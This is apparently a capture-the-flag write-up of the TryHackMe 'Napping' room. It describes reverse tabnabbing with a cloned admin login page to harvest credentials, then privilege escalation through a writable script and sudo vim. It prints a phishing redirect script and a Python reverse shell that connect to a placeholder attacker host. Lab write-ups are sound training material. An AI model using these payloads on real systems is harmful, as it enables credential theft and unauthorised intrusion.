## TryHackMe - Napping

So let's get started and see what ports are open to us!

`nmap -sS -sV -T4 <IP>`



We see a web server and an SSH server.

I started to enumerate the webserver and look at it.



We have a login page to something.
If we don't have an account yet, we can create one and get access, which I did.


We see a <ins>free blog promotions site</ins> and are asked to send links to the site, which are reviewed by the admin.

If we start a `python3 -m http.server` on our machine and submit our link to the site, we see that some traffic arrives and that our link is actually interacted with.



During the further enumeration with FFUF I also found the admin login of the site under `/admin/login.php`.



I first tried `SQLi` bypasses at the admin login and at `welcome.php` I tried some `XSS`.
Pretty sure at first I was that we might have to send the admin cookie to us via an XSS payload and some wild exploit attempts followed until frustration.

Well, then take a deep breath, take a short break and look at the circumstances again in peace.

When we submit a link to the application, we see a new embedded text <ins>"Thank you for your submission, you have entered: Here"</ins> and a hyperlink. 



So far I knew the HTML tag, but what does the attribute "target" and its value do?
After searching for it, I quickly realized that we are dealing with a [widely underestimated vulnerability](https://medium.com/@jitbit/target-blank-the-most-underestimated-vulnerability-ever-96e328301f4c).

The ["Tab Nabbing"](https://owasp.org/www-community/attacks/Reverse_Tabnabbing) by the "_blank" attribute in the target HTML tag!

We are able to send the bot a link which will open in **a new browser tab** and will be in the **foreground**.
Furthermore we have the possibility to replace **the old previous** tab which is in the **background** with any page.

So, based on the challenge description and the challenge name I was now sure that it must be this and I started the setup.

First I copied the admin login page `login.php`.

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">
        <h2>Admin Login</h2>
        <p>Please fill in your credentials to login.</p>


        <form action="save.php" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control " value="">
                <span class="invalid-feedback"></span>
            </div>    
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control ">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <br>
        </form>
    </div>
</body>
</html>
```

The second elementary part is the page `index.html`.

```html
<html>
<body>
  <h1>Dummy</h1>
  <script>
   if (window.opener) {
      window.opener.location = "http://<ATTACKER_IP>:8000/login.php";
   }
  </script>
 </body>
</html>
```

This is the page we send to the admin bot and its tab is then in the foreground focus while the background tab switches to our phishing page.

I started a php builtin webserver and passed the admin bot our link.



For saving the credentials I had written a small `save.php` file, which should write the credentials into a .txt file.
What worked locally for me, did not work with the bot now.
However, we can see that our `login.php` is first called via GET and then another POST call is added.
I repeated the process and got the credenttials from the POST request easy with Wireshark.



And there are the credentials finally!
I logged in with it now and all there was to see was this.



Ok, that's probably a dead end....

But daniel fortunately uses the same access for his SSH account!



# PrivEsc 1 (horizontal)

We now have shell but the flag is not with us but with the colleague `adrian` on the server.
The file `query.py` immediately aroused my interest and I checked our rights and the granted rights to the file.
Since we are in the group `administrators` and its group members have read and write permissions to this file from adrian, this must be our PE vector.



I only added a short code snippet to the file to test it.

```python
import os
os.system("id >> /tmp/out.txt")
```

And without doing something others there was an output.



Great!

The file seems to be executed intervallic.
And the content of the output proves our PE vector here.
So now just place a suitable code for a reverse shell, start the reverse listener and receive our new shell as user `adrian`.

I placed the following code and got the reverse shell.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<ATTACKER_IP>",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Still fix stabilize the shell...

- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- `CTRL+Z`
- `stty raw -echo && fg`

...and get the first flag!



# PrivEsc 2 (vertical)

The privilege escalation to root was done quickly.
I looked with `sudo -l` what we can execute with sudo and saw that we can execute `vim` without password input with root rights.

I started vim with the following command:

`sudo -u root /usr/bin/vim`

On [GTFOBins](https://gtfobins.github.io/) we can look up how to hop into a root shell over vim.



And there it is, the root flag!


